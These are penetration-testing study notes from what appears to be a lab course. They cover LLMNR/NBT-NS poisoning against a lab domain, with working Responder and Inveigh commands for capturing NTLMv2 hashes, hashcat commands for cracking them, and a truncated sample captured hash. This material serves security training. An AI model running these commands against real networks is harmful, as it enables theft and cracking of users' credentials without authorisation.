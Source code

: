 Example:
- A host attempts to connect to the print server at \\print01.inlanefreight.local, but accidentally types in \\printer01.inlanefreight.local
- The DNS server responds, stating that this host is unknown
- The host then broadcasts out to the entire local network asking if anyone knows the location of \\printer01.inlanefreight.local
- The attacker (us with Responder running) responds to the host stating that it is the \\printer01.inlanefreight.local that the host is looking for
- The host believes this reply and sends an authentication request to the attacker with a username and NTLMv2 password hash
- This hash can then be cracked offline or used in an SMB Relay attack if the right conditions exist

### **Using Responder**

By default, responder will listen on all of the following ports:
- udp/53 udp/88 udp/137 udp/138 udp/389 udp/1434 multicast-udp/5355 multicast-udp/5353
- tcp/21 tcp/25 tcp/53 tcp/80 tcp/88 tcp/110 tcp/135 tcp/139 tcp/143 tcp/389 tcp/443 tcp/445 tcp/587 tcp/1433 tcp/3128 tcp/3141 tcp/5985
- You could find this for youself with `sudo netstat -tunlp` before and while running responder. The process name for responder will be python3

Theoretically you could port forward all of those ports back through a tunnel (see [here](../Tooling/Chisel_Pivoting.md)), but it might be easier just to get Responder running on the access point / edge  

If you succesfully manage to capture a hash, Responder will print it out to the screen and write it to `/usr/share/responder/logs`  

Example:
- `sudo responder -I ens224`

Here is a script to extract Responder hashes from the responder log file: https://github.com/litsnarf/extractResponderHashes

### **Cracking NTLM hashes with hashcat**

```sh
# 5600 is the mode for NTLMv2 hashes
hashcat -m 5600 hash_out /usr/share/wordlists/rockyou.txt
hashcat -m 5600 --show hash_out

# In this case hash_out would contain:  
backupagent::INLANEFREIGHT:5b7024f548ec1492:9B9D232E4813929A1BDB1C14FF44C2D8:010 ... 0000000000
```

<br />

## LLMNR / NBT-NS Poisioning - From Windows

Same idea as the last section, but using `Inveigh` instead of `Responder`  

Using Inveigh:
```Powershell
# (Run as administrator)
Import-Module .\Inveigh.ps1
(Get-Command Invoke-Inveigh).Parameters
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
